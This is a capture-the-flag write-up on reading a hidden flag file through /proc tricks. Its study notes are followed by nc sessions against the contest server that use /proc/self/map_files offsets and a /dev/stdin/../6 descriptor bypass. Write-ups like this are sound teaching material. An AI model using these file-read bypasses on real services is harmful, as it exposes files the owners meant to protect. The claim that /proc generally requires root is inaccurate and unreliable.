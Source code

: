 # Lesson Learn
- `/proc/self/syscall`  
    In a Unix-like operating system, including Linux, `/proc/self/syscall` is a special file that provides a way for a process to access its own system call number. This file is part of the `/proc` file system, which is a virtual file system that exposes various kernel and process-related information in a structured way.  

    Here's how it works:  

    `/proc` is a virtual file system mounted on many Unix-like systems, including Linux. It provides a way for processes and users to interact with kernel-related information and statistics.  

    `/proc/self` is a symbolic link that always points to the process directory of the currently executing process. It allows a process to access information about itself without needing to know its own process ID.  

    `/proc/self/syscall` is a file within the process directory that contains the system call number of the most recent system call made by the process. Reading from this file will give you the system call number that was executed by the process.

    Please note that accessing `/proc` and its contents generally requires administrative or root privileges, and it's mainly used for debugging, monitoring, and low-level system-related tasks. Most application-level code does not need to interact with these files directly.  
- a merit of `/proc`  
    The `/proc` file system in Linux provides several merits and advantages for system administrators, developers, and users when it comes to managing and understanding the system. Here are some of the merits of the /proc file system:

    - Dynamic System Information:  
        `/proc` provides a dynamic view of various system-related information. This means that the information is updated in real-time, reflecting the current state of the system. This is extremely useful for monitoring and debugging purposes.  

    - Easy Access to Kernel Parameters:  
        Many kernel parameters and settings can be easily modified by writing values to the files in `/proc`. This allows administrators to make runtime changes to the kernel without needing to reboot the system.

    - Process Information:  
        `/proc` includes directories for each running process on the system. These directories contain detailed information about each process, such as its status, memory usage, file descriptor information, and more. This is valuable for process management and debugging.  

    - Hardware Information:  
        `/proc` provides information about hardware devices, CPU details, memory statistics, and other hardware-related information. This can be helpful for hardware profiling and diagnosis.  

    - Kernel Module Information:  
        Information about loaded kernel modules is available in `/proc/modules`. This can be useful for managing and troubleshooting kernel modules.  

    - Performance Monitoring:  
        `/proc` offers access to performance-related data, such as CPU usage, memory usage, disk I/O statistics, and network statistics. Tools like top and vmstat rely on `/proc` to display system performance metrics.  

    - Debugging and Profiling:  
        Developers and system administrators can use `/proc` to gather information for debugging and profiling applications and the kernel itself. It's a valuable resource for diagnosing and resolving issues.  

    - Scripting and Automation:  
        Since `/proc` is accessible through the file system, it can be easily accessed and manipulated using shell scripts and programming languages like Python. This makes it a powerful tool for automating system tasks and collecting information.  

    - Security Auditing:  
        Security tools and utilities can use `/proc` to monitor and audit system activities, helping to detect and respond to security breaches and suspicious activities.  

    - Compatibility:  
        `/proc` provides a standardized way to access system information and interact with the kernel, making it consistent across different Linux distributions and kernel versions.  

    While `/proc` offers many advantages, it's important to note that not all files and directories in `/proc` are meant for casual user interaction. Some of the information and settings within `/proc` require a deep understanding of the Linux kernel and should be used with caution. Additionally, access to certain files and directories in `/proc` may require elevated privileges.

- `/proc/self/maps`  
- `/proc/self/map_files/(xxxx)-(xxxx)`  
- `/proc/self/fd/`  
- `/dev/stdin`  --> `/proc/self/fd/0`  
- `mmap` in Python  
    ```py
    f = open("./flag.txt", "r")
    mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)
    ```
    `mmap` is a module in Python that provides functions for memory-mapped file I/O. Memory-mapped files allow you to map a file directly into memory, which can be useful for efficient file reading and writing.  

    `f.fileno()` is used to get the file descriptor of the file f. The file descriptor is a low-level integer identifier for an open file.

    `0` is the length argument, which specifies the length of the memory-mapped region. In this case, it's set to 0, which means the entire file will be mapped into memory.  

    `prot=mmap.PROT_READ `specifies the protection level for the memory-mapped region. In this case, it's set to mmap.PROT_READ, which means that the memory-mapped region is read-only. This means you can read data from the memory-mapped file, but you cannot write to it.  

    So, the code creates a memory-mapped file object mm that maps the entire content of the file represented by the file descriptor f.fileno() into memory in a read-only mode. You can then use the mm object to efficiently read data from the file as if it were in memory.  


# Write Up
There are two solutions.
- solution 1 : open map_files/(xxxx)-(xxxx)
- solution 2 : bypass fd  

## solution 1 : open map_files/(xxxx)-(xxxx)
1. check a characteristics around /proc/self/syscall and /proc/self/maps  
    e.g.
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/maps
    b'
    55d0743de000-55d0743df000 r--p 00000000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743df000-55d0743e0000 r-xp 00001000 fc:03 1058172  /usr/local/bin/python3.11
    55d0743e0000-55d0743e1000 r--p 00002000 fc:03 1058172
    '
    path: /proc/self/syscall
    b'0 0x5 0x55d07575e6b0 0x400 0x2 0x0 0x0 0x7ffe8e485d38 0x7f332976907d\n'
    ```
2. guess and calculate an offset using a local container.  
    First, edit server.py like this.  
    - before
        ```py
            with open(os.path.realpath(path), "rb") as f:
                print(f.read(0x100))
        ```
    - after  
        ```py
            with open(os.path.realpath(path), "rb") as f:
                print(f.read())
        ```
    build a container on a local machine  
    ![Offset Calc Image](offsetCalc.png) 

3. try the same logic on a target machine
    ```console
    $ nc readme-2023.seccon.games 2023
    path: /proc/self/syscall
    b'0 0x7 0x55ff3af0b6b0 0x400 0x2 0x0 0x0 0x7ffdbcab9868 0x7f655358f07d\n'
    path: /proc/self/map_files/7f6553679000-7f655367a000
    b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
    ```

## solution 2 : bypass fd  
`/dev/stdin` --> `/proc/self/fd/0`  
`/dev/stdin/../` --> `/proc/self/fd`  
`/dev/stdin/../6` --> `/proc/self/fd/6`
